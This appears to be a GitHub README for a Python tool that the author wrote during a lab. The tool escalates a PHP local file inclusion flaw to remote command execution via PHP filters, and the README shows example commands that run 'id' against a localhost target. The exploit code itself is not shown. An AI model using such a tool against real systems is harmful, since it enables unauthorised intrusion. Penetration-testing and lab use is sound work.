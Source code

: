 # PHPLFI2RCE

I wrote this while doing a LFI lab. It is based on https://book.hacktricks.xyz/pentesting-web/file-inclusion/lfi2rce-via-php-filters#full-script

I just made it usable via cli, just because who knows one day I might need it...

# Usage

```
args:
        -u <url>
        -p <param>
        -c <command to issue>
optional:
        -f <file to use (default php://temp)>
        -P <proxy (http,http://localhost:8080)>]
```

## Examples

If the LFI is on the parameter "file", in a URL such as in ```http://127.0.0.1/index.php?file=<LFI HERE>```, and you want to issue the command "id":


```
python3 phplfi2rce.py -u http://127.0.0.1/index.php -p file -c id
```

Add proxies if you need


```
python3 phplfi2rce.py -u http://127.0.0.1/index.php -p file -c id -P http,http://localhost:8080

```

Finally, you can use a different php:// file, the default is php://temp. Just use the -f parameter.

# Notes

This works only with GET parameters. If you need POST you'll need to modify the code. I'm too lazy to do it now.
